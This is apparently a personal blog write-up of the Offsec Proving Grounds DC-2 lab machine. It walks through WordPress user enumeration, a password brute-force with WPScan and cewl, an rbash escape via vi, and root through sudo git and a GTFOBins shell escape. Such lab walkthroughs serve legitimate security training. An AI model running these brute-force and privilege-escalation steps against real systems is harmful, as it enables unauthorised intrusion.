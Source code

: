 ```yaml
---
title: "Proving grounds Play: DC-2"
layout: post
date: 2023-09-06 01:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52517b6e70a4337ad24be10b5a0f9ed7 (DSA)
|   2048 5911d8af38518f41a744b32803809942 (RSA)
|   256 df181d7426cec14f6f2fc12654315191 (ECDSA)
|_  256 d9385f997c0d647e1d46f6e97cc63717 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

make entry in the `/etc/hosts` file as `dc-2` for the attacking machine IP.

## Web PORT: 80

![img](/assets/images/CTF/Proving_Grounds/DC-2/web.png)

**Techstack**
- Wordpress

### WPscan

```
wpscan --url $URL --disable-tls-checks --enumerate p --enumerate t --enumerate u
```

**Usernames Enumerated**

```text
admin
jerry
tom
```

### Hint

As shown in the webpage the wordslist has to be created using the tool named `cewl`

```sh
cewl http://dc-2/ > password
```
## Bruteforce credentials usgin WPscan

```sh
wpscan --url http://dc-2/ -U users -P password
```

**Credentials Obtained**

![img](/assets/images/CTF/Proving_Grounds/DC-2/credentials.png)

SSH to the machine using the credentials. The user `jerry` doesn't have SSH login permission, so login to user `tom`.

### Escaping rbash

```sh
vi
:set shell=/bin/bash
:shell
```

Type the above commmands to escape from the rbash to standard unix shell.

User `tom` may not run anything as sudo on machine DC-2. So switch to user `jerry`.

![img](/assets/images/CTF/Proving_Grounds/DC-2/shell.png)

User tom can run `/usr/bin/git` as sudo.

Search for exploit on GTFO Bins. As per the page the binary can be used to elevate sudo permissions using below commands.

![img](/assets/images/CTF/Proving_Grounds/DC-2/exploit.png)

```sh
sudo git -p help config

# Once the git manual page appears type the below and hit enter
!/bin/bash
```

**Root Shell Obtained**

![img](/assets/images/CTF/Proving_Grounds/DC-2/root.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).